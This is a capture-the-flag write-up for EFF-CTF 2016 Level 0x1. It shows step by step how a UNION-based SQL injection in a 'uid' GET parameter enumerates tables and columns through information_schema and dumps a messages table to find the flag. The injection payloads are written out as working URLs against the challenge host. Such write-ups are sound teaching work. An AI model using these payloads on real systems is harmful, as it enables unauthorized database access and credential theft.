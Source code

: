 Writeup: EFF-CTF 2016 - Level 0x1
=================================

:date: 2016-02-04
:tags: security, ctf, eff-ctf, web
:lang: en
:summary: Level 0x1 is a web challenge, where you need to exploit a SQLi
          (non-blind) in order to get the flag.


Problem
-------

The following document describes how to solve the level ``0x1``
of the CTF ``EFF-CTF 2016``, available at: `level0x1.eff-ctf.org`_

.. _level0x1.eff-ctf.org:
  https://level0x1.eff-ctf.org


Check for SQLi
--------------

First of all, we've noticed opening tweets for ``admin``, leads us to a page
containing its tweets (2 tweets).

The URL is: `level0x1.eff-ctf.org/tweets?uid=1`_. A ``GET`` parameter has been
passed, so we can **check if there's a SQLi in there**..

After some tries, we've found that using `uid=1 OR 1=1`_ we get not just 2
tweets, but instead the list of all tweets for user ``admin``.

This tells us **there is a SQLi in the GET parameter** ``uid``.

Since it gives us more rows, **the SQLi is inside a** ``WHERE`` **clause**.

.. _`level0x1.eff-ctf.org/tweets?uid=1`:
  https://level0x1.eff-ctf.org/tweets?uid=1
.. _`uid=1 OR 1=1`:
  https://level0x1.eff-ctf.org/tweets?uid=1%20OR%201=1


How to read database contents
-----------------------------

We need to find a way to use the SQLi to read database contents.

We can exploit the fact SQLi is inside the ``WHERE`` clause, so finishing the
query at that point, doesn't product an invalid query, but something like:

.. code-block:: sql

  SELECT ..
    FROM ..
   WHERE ..=1

The result of the query above, is a table with ``n`` rows (one for each column
included in the ``SELECT`` statement).

If we make a ``UNION`` between the table above and another table
(having the same number of columns, ``n``)
**the resulting table will include both of the resulting rows**:

.. code-block:: sql
  :hl_lines: 5 6

  SELECT ..
    FROM ..
   WHERE ..=1
   UNION
  SELECT <our_columns>
    FROM <our_table>


Find the number of columns
--------------------------

Let's try some unions, we'll get errors until we find the right number
of columns:

* `uid=1 UNION SELECT 1`_: *Error*, too few columns.
* `uid=1 UNION SELECT 1, 2`_: *Success*, We can read as output the number ``2``,
  which is **the second field**.
* `uid=1 UNION SELECT 1, 2, 3`_: *Error*, too many columns.

The right number of columns is: ``2``.
We can read the content of the second column, which
**will be where we will dump all of the database informations**.

.. _`uid=1 UNION SELECT 1`:
  https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201
.. _`uid=1 UNION SELECT 1, 2`:
  https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201,%202
.. _`uid=1 UNION SELECT 1, 2, 3`:
  https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201,%202,%203


Find the available tables
-------------------------

To find the available tables in the current database, we need to
**dump the tables of the database schema**..

Running
`uid=1 UNION SELECT 1, table_name FROM information_schema.tables`_
gives the following output:

.. table::
  :class: bordered centered

  +----------+--------------------------------------------------+
  | User     |                     Tweet                        |
  +==========+==================================================+
  | admin    | Hackers broke in last night and deleted our      |
  |          | database,I reset it but all the old posts and    |
  |          | messages are gone.                               |
  +----------+--------------------------------------------------+
  | admin    | I have temporarily disabled the login system,    |
  |          | due to the hacker menace                         |
  +----------+--------------------------------------------------+
  | admin    | CHARACTER\_SETS                                  |
  +----------+--------------------------------------------------+
  | admin    | COLLATIONS                                       |
  +----------+--------------------------------------------------+
  | admin    | COLLATION\_CHARACTER\_SET\_APPLICABILITY         |
  +----------+--------------------------------------------------+
  | admin    | COLUMNS                                          |
  +----------+--------------------------------------------------+
  | admin    | COLUMN\_PRIVILEGES                               |
  +----------+--------------------------------------------------+
  | admin    | ENGINES                                          |
  +----------+--------------------------------------------------+
  | admin    | EVENTS                                           |
  +----------+--------------------------------------------------+
  |            ... *so many system tables* ...                  |
  +----------+--------------------------------------------------+
  | admin    | INNODB\_LOCKS                                    |
  +----------+--------------------------------------------------+
  | admin    | INNODB\_CMPMEM\_RESET                            |
  +----------+--------------------------------------------------+
  | admin    | INNODB\_CMP\_RESET                               |
  +----------+--------------------------------------------------+
  | admin    | INNODB\_BUFFER\_PAGE\_LRU                        |
  +----------+--------------------------------------------------+
  | admin    | messages                                         |
  +----------+--------------------------------------------------+
  | admin    | tweets                                           |
  +----------+--------------------------------------------------+
  | admin    | users                                            |
  +----------+--------------------------------------------------+

We can see **the only user-defined tables are**:

-  ``messages``
-  ``tweets``
-  ``users``

.. _`uid=1 UNION SELECT 1, table_name FROM information_schema.tables`:
  https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201,%20table_name%20FROM%20information_schema.tables


Find the columns
----------------

To find the columns for each (user-defined) table we need to query the
table ``information_schema.columns`` in the column ``column_name``:


Table ``messages``
~~~~~~~~~~~~~~~~~~

Using the following query:
`uid=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = "messages"`_
we get:

.. table::
  :class: bordered centered

  +----------+--------------------------------------------------+
  |   User   |                     Tweet                        |
  +==========+==================================================+
  | admin    | Hackers broke in last night and deleted our      |
  |          | database,I reset it but all the old posts and    |
  |          | messages are gone.                               |
  +----------+--------------------------------------------------+
  | admin    | I have temporarily disabled the login system,    |
  |          | due to the hacker menace                         |
  +----------+--------------------------------------------------+
  | admin    | mid                                              |
  +----------+--------------------------------------------------+
  | admin    | from                                             |
  +----------+--------------------------------------------------+
  | admin    | to                                               |
  +----------+--------------------------------------------------+
  | admin    | body                                             |
  +----------+--------------------------------------------------+

The ``messages`` table has the following columns:

- ``mid``
- ``from``
- ``to``
- ``body``

.. _`uid=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = "messages"`:
  https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201,%20column_name%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%22messages%22


Table ``tweets``
~~~~~~~~~~~~~~~~

Using the following query:
`uid=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = "tweets"`_
we get:

.. table::
  :class: bordered centered

  +----------+--------------------------------------------------+
  |   User   |                     Tweet                        |
  +==========+==================================================+
  | admin    | Hackers broke in last night and deleted our      |
  |          | database,I reset it but all the old posts and    |
  |          | messages are gone.                               |
  +----------+--------------------------------------------------+
  | admin    | I have temporarily disabled the login system,    |
  |          | due to the hacker menace                         |
  +----------+--------------------------------------------------+
  | admin    | tid                                              |
  +----------+--------------------------------------------------+
  | admin    | uid                                              |
  +----------+--------------------------------------------------+
  | admin    | body                                             |
  +----------+--------------------------------------------------+

The ``tweets`` table has the following columns:

- ``tid``
- ``uid``
- ``body``

.. _`uid=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = "tweets"`:
  https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201,%20column_name%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%22tweets%22


Table ``users``
~~~~~~~~~~~~~~~

Using the following query:
`uid=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = "users"`_
we get:

.. table::
  :class: bordered centered

  +----------+--------------------------------------------------+
  |   User   |                     Tweet                        |
  +==========+==================================================+
  | admin    | Hackers broke in last night and deleted our      |
  |          | database,I reset it but all the old posts and    |
  |          | messages are gone.                               |
  +----------+--------------------------------------------------+
  | admin    | I have temporarily disabled the login system,    |
  |          | due to the hacker menace                         |
  +----------+--------------------------------------------------+
  | admin    | uid                                              |
  +----------+--------------------------------------------------+
  | admin    | username                                         |
  +----------+--------------------------------------------------+
  | admin    | password                                         |
  +----------+--------------------------------------------------+

The ``users`` table has the following columns:

- ``uid``
- ``username``
- ``password``

.. _`uid=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = "users"`:
  https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201,%20column_name%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%22users%22


Summing up
~~~~~~~~~~

The following tables should be examined:

- Table ``messages`` with columns: ``mid``, ``from``, ``to``, ``body``.
- Table ``tweets`` with columns: ``tid``, ``uid``, ``body``.
- Table ``users`` with columns: ``uid``, ``username``, ``password``.

Examine tables
--------------

After taking a look at the tables described above, we found that column
``body`` of table ``messages`` contains the following text:

- ``Bro send me the password for the secret meeting``
- ``The password is MarcusYallow``
- ``I totes haxxored your stupid twitter! Your code sucks! And your passwords are horrible!``
- ``You little jerk! I'm gonna tell the FBI!``

Flag
----

The flag is ``MarcusYallow``.
